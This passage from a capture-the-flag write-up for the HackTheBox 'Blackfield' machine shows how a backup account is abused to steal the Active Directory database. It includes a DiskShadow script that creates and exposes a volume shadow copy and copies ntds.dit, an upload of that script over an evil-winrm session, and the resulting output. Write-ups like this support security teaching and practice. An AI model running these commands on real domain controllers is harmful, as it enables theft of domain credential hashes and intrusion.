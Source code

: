 ```powershell
Get-acl $ntds_file | select -expand accesstostring
BLACKFIELD\svc_backup Allow  FullControl
NT AUTHORITY\SYSTEM Allow  FullControl
BUILTIN\Administrators Allow  FullContro
```

Now we'll use `DiskShadow` to make a shadow copy of the ntds.

> DiskShadow.exe is a tool that exposes the functionality offered by the Volume Shadow Copy Service (VSS). By default, DiskShadow uses an interactive command interpreter similar to that of DiskRaid or DiskPart. DiskShadow also includes a scriptable mode.
>
> [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)

Let's prepapre the copy script (`diskshadow.txt`) to run `DiskShadow` in script
mode.

```batch
set context persistent nowriters#
add volume c: alias noraj#
create#
expose %noraj% x:#
exec "cmd.exe" /c copy x:\windows\ntds\ntds.dit c:\Users\svc_backup\Videos\ntds.dit#
delete shadows volume %noraj%#
reset#
```

Then we can use [evil-winrm][evil-winrm] native upload feature.

```
*Evil-WinRM* PS C:\Users\svc_backup\Videos> upload /home/noraj/CTF/HackTheBox/machines/Blackfield/diskshadow.txt
Info: Uploading /home/noraj/CTF/HackTheBox/machines/Blackfield/diskshadow.txt to C:\Users\svc_backup\Videos\diskshadow.txt


Data: 268 bytes of 268 bytes copied

Info: Upload successful!
```

And then call `DiskShadow`.

```
*Evil-WinRM* PS C:\Users\svc_backup> diskshadow.exe /s C:\Users\svc_backup\Videos\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/21/2020 12:12:50 AM

-> set context persistent nowriters
-> add volume c: alias noraj
-> create
Alias noraj for shadow ID {eef6f0be-3c60-4e69-985d-3bc400a24ff1} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {12b5d80f-4368-4727-a02b-1b22f5e020ef} set as environment variable.

Querying all shadow copies with the shadow copy set ID {12b5d80f-4368-4727-a02b-1b22f5e020ef}

        * Shadow copy ID = {eef6f0be-3c60-4e69-985d-3bc400a24ff1}               %noraj%
                - Shadow copy set: {12b5d80f-4368-4727-a02b-1b22f5e020ef}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 9/21/2020 12:12:51 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
```